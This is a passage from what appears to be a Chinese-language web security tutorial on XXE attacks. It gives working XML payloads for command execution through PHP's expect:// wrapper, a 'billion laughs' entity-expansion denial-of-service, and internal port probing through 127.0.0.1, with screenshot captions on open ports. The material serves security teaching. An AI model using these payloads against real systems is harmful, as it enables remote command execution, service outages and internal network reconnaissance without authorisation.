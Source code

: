 ##### 2、执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过XXE可以实现RCE的实例很少。

##### 3、拒绝服务攻击(Dos)

```plain
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用,lol 实体具体还有 “lol” 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。

##### 4、探测内网端口与攻击内网网站

**探测内网端口**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306端口开放  
[![](assets/1698897471-934d159eee114ab693147ed28ae3d5b2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152107-4ea0fe60-14d4-1.jpg)  
3389端口未开放  